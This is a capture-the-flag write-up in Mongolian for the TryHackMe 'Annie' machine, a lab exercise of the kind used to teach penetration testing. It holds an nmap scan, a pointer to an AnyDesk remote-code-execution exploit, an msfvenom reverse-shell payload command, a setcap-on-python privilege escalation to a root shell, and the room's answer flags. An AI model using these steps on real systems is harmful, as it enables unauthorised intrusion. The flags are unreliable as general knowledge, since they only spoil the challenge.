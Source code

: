 # Annie THM
*** 
Difficulty - Medium

## Description
    Remote access comes in different flavors.

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Annie%20THM%20(medium)%20/files/1.png">
</p>

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Annie%20THM%20(medium)%20/files/2.png">
</p>

## Solve

<p> default web асаагүй байсан тул Nmap хийж эхлэнэ.  
``└─$ nmap -A -sC -sV -sF 10.10.255.156 ``
</p>

<p> 22 буюу ssh , 7070 tcp - realserver гэх 2 порт асаалттай байсан.</p>

<p> Тиймээс 7070 portын тухай хайхад AnyDesk гэх service асаж байсан </p>

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Annie%20THM%20(medium)%20/files/3.png">
</p>

<p> searchsploit оос AnyDesk гэж хайхад CVE-2020-13160 - RCE эмзэг байдал байсан ба
POC нь - https://www.exploit-db.com/exploits/49613 </p>

<p> доорх POC -г ажиллуулахын тулд MSFVenom ашиглан backdoor shell code руу хөрвүүлэн гаргана</p>
``msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.4.49.166 LPORT=6969 -b “\x00\x25\x26” -f python -v shellcode`` 

<p> 6969 port дээр listen хийгээд ажиллуулахад rev shell авна</p>

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Annie%20THM%20(medium)%20/files/4.png">
</p>

<p>Ингээд user.txt авахад - ```THM{N0t_Ju5t_ANY_D3sk}``` </p>

<p>

``     find / -perm -04000 -ls 2>/dev/null
``
</p>

гэж хайхад  /sbin/setcap илэрсэн үүнийг нь хайж үзээд privilage escalation хийх арга олсон.

    cp /usr/bin/python3 /home/annie  
    setcap cap_setuid+ep /home/annie/python3
    getcap -r / 2>/dev/null
    ./python3 -c ‘import os; os.setuid(0); os.system(“/bin/bash”)’
<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Annie%20THM%20(medium)%20/files/5.png">
</p>
<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Annie%20THM%20(medium)%20/files/6.png">
</p>

эцэст нь root.txt ээ авна

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Annie%20THM%20(medium)%20/files/7.png">
</p>

root.txt - THM{0nly_th3m_5.5.2_D3sk}


